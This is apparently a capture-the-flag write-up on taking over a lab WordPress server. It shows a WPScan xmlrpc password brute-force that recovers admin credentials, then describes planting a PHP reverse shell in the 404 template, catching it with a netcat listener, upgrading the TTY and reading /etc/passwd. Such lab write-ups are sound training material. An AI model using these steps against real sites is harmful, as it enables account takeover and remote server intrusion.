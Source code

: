    ``` txt
    | Found By: Emoji Settings (Passive Detection)
    |  - http://10.10.156.30/wordpress/, Match: 'wp-includes\/js\/wp-emoji-release.min.js?ver=5.4.2'
    | Confirmed By: Meta Generator (Passive Detection)
    |  - http://10.10.156.30/wordpress/, Match: 'WordPress 5.4.2'

    [i] The main theme could not be detected.

    [+] Enumerating All Plugins (via Passive Methods)

    [i] No plugins Found.

    [+] Enumerating Config Backups (via Passive and Aggressive Methods)
    Checking Config Backups - Time: 00:00:01 <============================================> (137 / 137) 100.00% Time: 00:00:01

    [i] No Config Backups Found.

    [+] Performing password attack on Xmlrpc against 1 user/s
    [SUCCESS] - admin / my2boys
    Trying admin / lizzy Time: 00:01:19 <                                             > (3885 / 14348276)  0.02%  ETA: ??:??:??

    [!] Valid Combinations Found:
    | Username: admin, Password: my2boys

    [!] No WPScan API Token given, as a result vulnerability data has not been output.
    [!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register
   ```

So now we can login to wordpress as admin and look around.

The wordpress page reveals a private note on credentals of william being william:arnold147 sofar this doesnt seem usable

## Wordpress php reverse shell

I used this [php reverse shell](https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/php_reverse_shell.php), modified IP and port and uploaded it to the wordpress 404 page. Now time to start netcat on the chosen port e.g.```nc -lvnp 6666``` and call a page that doesn't exist e.g.```/blog/index.php/2020/08/03/50/``` with e.g. curl.

We now get a reverse shell but no TTY so we can try this:``` python -c 'import pty; pty.spawn("/bin/sh")'``` or this```/bin/sh -i```.

Let's have a look around:

??? output "cat /etc/passwd output"
   ``` sh
    cat /etc/passwd
    root:x:0:0:root:/root:/bin/bash
    daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
    bin:x:2:2:bin:/bin:/usr/sbin/nologin
    sys:x:3:3:sys:/dev:/usr/sbin/nologin
    sync:x:4:65534:sync:/bin:/bin/sync
    games:x:5:60:games:/usr/games:/usr/sbin/nologin
    man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
    lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
    mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
    news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
    uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
    proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
    www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
    backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
   ```